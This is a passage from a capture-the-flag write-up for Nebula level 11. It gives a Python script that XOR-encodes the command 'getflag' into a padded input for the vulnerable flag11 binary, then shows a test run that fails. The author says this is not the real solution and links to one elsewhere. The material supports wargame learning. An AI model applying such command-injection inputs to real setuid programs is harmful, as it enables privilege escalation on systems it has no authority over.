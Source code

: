11 .py
```
command = "getflag\x00"
length = 1024
key = length & 0xff

encrypted=""
for i in range(len(command)):
        enc = (ord(command[i])^key) & 0xff;
        encrypted += chr(enc)
        key = (key - ord(command[i])) & 0xff;

print "Content-Length: 1024\n"+encrypted+"A"*(length-len(encrypted))
```
Test
```
level11@nebula:~$ python 11.py | /home/flag11/flag11
blue = 1024, length = 1024, pink = 1024
getflag is executing on a non-flag account, this doesn't count
```

**Important** 

> Above methods are not real solution for Nebula 11 and I found a real
> solution [here](https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9) and this is next topic



**Reference**
- [https://my.eng.utah.edu/~cs4400/file-descriptor.pdf](https://my.eng.utah.edu/~cs4400/file-descriptor.pdf)
- [https://www.pwntester.com/blog/2013/11/24/nebula-level11-write-up/](https://www.pwntester.com/blog/2013/11/24/nebula-level11-write-up/)
- 
